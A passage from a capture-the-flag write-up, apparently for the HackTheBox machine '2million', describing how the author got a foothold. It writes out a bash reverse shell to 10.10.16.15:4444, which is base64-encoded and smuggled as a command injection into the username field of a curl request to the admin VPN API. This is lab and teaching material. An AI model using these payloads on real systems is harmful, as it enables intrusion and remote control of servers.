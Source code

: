 
before getting a reverse shell, I tried to check if there is a communication outise the machine pinging us back

 ![Alt text](/assets/img/htb/tm_23.png)

and using the command `sudo tcpdump -i tun0 icmp` we had ping requests hitting us back
 

I used a bash script to get a reverse shell `bash -i >& /dev/tcp/10.10.16.15/4444 0>&1`
converted it to base64 and bash it to the curl command and got a reverse shell

```yaml
 curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=cpm0c8lt568v2sv5rh65laks9e" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNS80NDQ0IDA+JjEK | base64 -d | bash;"}'
```

 ![Alt text](/assets/img/htb/tm_24.png)
